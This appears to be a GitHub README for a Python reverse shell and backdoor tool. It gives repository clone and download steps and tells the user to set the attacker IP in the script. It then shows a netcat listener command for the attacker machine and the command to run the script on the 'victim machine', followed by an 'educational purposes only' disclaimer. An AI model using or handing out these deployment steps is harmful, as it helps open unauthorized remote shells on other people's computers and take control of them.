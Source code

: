 # ReverseShell | Written In <a href="https://www.python.org/"><img src="https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54" alt="Python Badge"/></a>
- A python3 backdoor/reverseshell.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use:snake:?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```

Or download the zip:
- https://github.com/Keyj33k/ReverseShell/archive/refs/heads/main.zip

## You will find a file called >> reverseshell.py:

- Now you need to change the ip in the script.

## After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```

- On the vivtim machine:
```
python3 reverseshell.py 
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is only for educational purposes. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
![pypy](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/pypy.jpeg)
---

